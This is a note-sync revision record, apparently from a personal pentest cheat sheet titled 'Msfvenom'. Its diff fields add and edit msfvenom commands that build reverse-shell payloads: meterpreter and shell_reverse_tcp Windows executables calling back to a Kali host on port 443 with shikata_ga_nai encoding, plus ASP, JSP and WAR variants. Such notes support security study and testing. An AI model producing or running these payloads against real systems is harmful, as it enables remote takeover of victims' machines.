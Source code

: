 id: 6347bd6bc9b74a50803f8fb028543c45
parent_id: a98eebd3ad6c422ab1fd2dbb0ab2d3b5
item_type: 1
item_id: c5501ccb1e8d457f9a5080d28007af2e
item_updated_time: 1650615786207
title_diff: "[{\"diffs\":[[0,\"Msfvenom\"],[1,\"\\\r\"]],\"start1\":0,\"start2\":0,\"length1\":8,\"length2\":9}]"
body_diff: "[{\"diffs\":[[0,\"erpreter/reverse\"],[1,\"\\\\\"],[0,\"_tcp LHOST=IP LP\"]],\"start1\":880,\"start2\":880,\"length1\":32,\"length2\":33},{\"diffs\":[[0,\"exe -o shell.exe\"],[1,\" -a x86\\\\_64\"],[0,\"\\\n- msfvenom -p w\"]],\"start1\":925,\"start2\":925,\"length1\":32,\"length2\":43},{\"diffs\":[[0,\" > shell.exe\"],[1,\"\\\n- msfvenom -p windows/shell\\\\_reverse\\\\_tcp LHOST=&lt;KALI IP&gt; LPORT=443 EXITFUNC=thread -f c –e x86/shikata\\\\_ga\\\\_nai -b \\\"\\\\\\\\x00\\\\\\\\x0a\\\\\\\\x0d\\\\\\\\x25\\\\\\\\x26\\\\\\\\x2b\\\\\\\\3d\\\"\"],[0,\"\\\n\\\n## Linux P\"]],\"start1\":1404,\"start2\":1404,\"length1\":24,\"length2\":183},{\"diffs\":[[0,\"OST=\"],[-1,\" <your ip=\\\"\\\" address=\\\"\\\">LPORT= <your port=\\\"\\\" to=\\\"\\\" connect=\\\"\\\" on=\\\"\\\">\"],[1,\"$KALIIP LPORT=$PORT \"],[0,\"-f a\"]],\"start1\":2374,\"start2\":2374,\"length1\":76,\"length2\":28},{\"diffs\":[[0,\"hell.asp\"],[-1,\"</your></your>\"],[0,\"\\\n\\\nJSP\\\n\\\n-\"]],\"start1\":2408,\"start2\":2408,\"length1\":30,\"length2\":16},{\"diffs\":[[0,\"hell.jsp\"],[-1,\"</your></your>\"],[0,\"\\\n\\\nWAR\\\n\\\n-\"]],\"start1\":2550,\"start2\":2550,\"length1\":30,\"length2\":16},{\"diffs\":[[0,\"ing-for-meterpreter/\"],[1,\"\\\n\"]],\"start1\":3457,\"start2\":3457,\"length1\":20,\"length2\":21}]"
metadata_diff: {"new":{},"deleted":[]}
encryption_cipher_text: 
encryption_applied: 0
updated_time: 2022-04-22T08:26:57.728Z
created_time: 2022-04-22T08:26:57.728Z
type_: 13